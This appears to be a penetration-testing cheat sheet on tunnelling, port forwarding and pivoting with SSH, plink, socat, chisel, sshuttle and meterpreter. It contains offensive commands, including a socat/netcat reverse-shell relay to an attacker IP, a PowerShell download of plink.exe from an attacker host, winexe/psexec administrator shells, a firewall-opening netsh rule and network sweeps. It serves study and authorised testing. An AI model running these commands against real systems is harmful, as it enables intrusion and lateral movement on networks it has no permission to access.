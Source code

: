# Port Forwarding/Tunneling and Pivoting

### SSH Tunnelling / Port Forwarding

For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10.

```
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine.

Proxies are made using the -D switch, for example: -D 1337. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```
ssh -D 1337 user@172.16.0.5 -fN
```

#### Reverse Connections

Generate a keypair:

```
ssh-keygen
```

Copy the contents of the public key (the file ending with .pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine. You may need to create the ~/.ssh directory and authorized_keys file first.
On a new line, type the following line, then paste in the public key:

```
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty INSERT_PUBLIC_KEY
```

This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:

```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This command can be used to create a reverse proxy in clients which do support it:

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To close any of these connections, type ps aux | grep ssh into the terminal of the machine that created the connection.

Finally, type `sudo kill PID` to close the connection.

### Plink

Download `plink.exe`

```
C:\Users\Alfred>powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8/plink.exe', 'plink.exe')"
```

Start SSH service on our attacking box.

```
root@kali:~# service ssh start
```

Run `plink.exe`

```
C:\Users\Alfred>plink.exe -l root -pw  -R 445:127.0.0.1:445 ATK_IP

Or

C:\Users\Alfred>plink.exe -l root@ATK_IP -R 445:127.0.0.1:445

Or

cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

Use `winexe` to get a shell

```
root@kali:~# winexe -U Administrator //127.0.0.1 "cmd.exe"
root@kali:~# winexe -U 'admin@password123' //127.0.0.1 cmd.exe

or

psexec.py USER:PASSWORD@IP cmd.exe
```

### Socat

#### Reverse Shell Relay

First let's start a standard netcat listener on our attacking box

```bash
sudo nc -lvnp 443
```

Next, on the compromised server, use the following command to start the relay:

```
./socat tcp-l:20000 tcp:ATTACKING_IP:443 &
./nc 127.0.0.1 20000 -e /bin/bash
```

#### Port Forwarding

- Easy
  On the compromised server

```
./socat tcp-l:LOCAL_PORT,fork,reuseaddr tcp:TARGET_IP:TARGET_PORT &
```

- Quiet

On the attacking machine

```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

On the compromised relay server

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Check localhost:8000 on the attacker machine to see the port available on the intended target.

### Chisel

#### Reverse SOCKS Proxy

On the attacking machine start the server

```
./chisel server -p 8081 -reverse

./chisel server -p LISTEN_PORT --reverse &
```

On the target machine start the listening client

```
.\chisel.exe client 10.10.14.97:8081 R:8888:127.0.0.1:8888

./chisel client ATTACKING_IP:LISTEN_PORT R:socks &

./chisel client 172.16.0.200:4242 R:socks &
```

#### Forward SOCKS Proxy

Open port in windows firewall

```
netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000
```

First, on the compromised host we would use:

```
./chisel server -p LISTEN_PORT --socks5
```

On our own attacking box we would then use:

```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

### sshuttle

```bash
# 
sshuttle -r user@172.16.0.5 172.16.0.0/24
# using key-based authentication to the server (172.16.0.5)
sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24
# Exclude compromised server from the subnet range using the -x switch
sshuttle -r root@10.200.198.200 --ssh-cmd "ssh -i id_rsa" 10.200.198.0/24 -x 10.200.198.200
```

## Pivoting

Post exploitation on a windows machine. Find what machine the target is talking to

```
arp -a
```

On a meterpreter shell

```
run autoroute -s 10.10.10.0/24

List routes

run autoroute -p

background

use autiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit

Back on the meterpreter session
portfwd add -l 1234 -p 21 -r 192.58.241.3
portfwd list

nmap -sS -sV -p 1234 localhost
use auxiliary/scanner/portscan/tcp
```

### Ping Sweeps

```
bash
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

netcat
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

### Proxychains
- /etc/proxychains4.conf
```
socks5 127.0.0.1 1080
```
Run a command you need to prefix it with “proxychains <command>”

### Further information and Links

* [Pentesting Pivoting Guide](https://github.com/t3l3machus/pentest-pivoting)